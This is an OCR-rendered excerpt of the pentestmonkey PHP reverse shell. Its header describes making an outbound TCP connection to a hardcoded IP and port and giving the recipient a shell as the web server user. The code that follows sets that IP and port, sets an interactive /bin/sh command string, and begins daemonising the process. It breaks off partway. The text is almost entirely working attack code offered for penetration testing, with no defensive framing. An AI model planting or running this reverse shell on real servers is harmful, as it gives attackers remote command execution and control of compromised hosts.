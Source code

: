 ```bash
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.8.118';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
```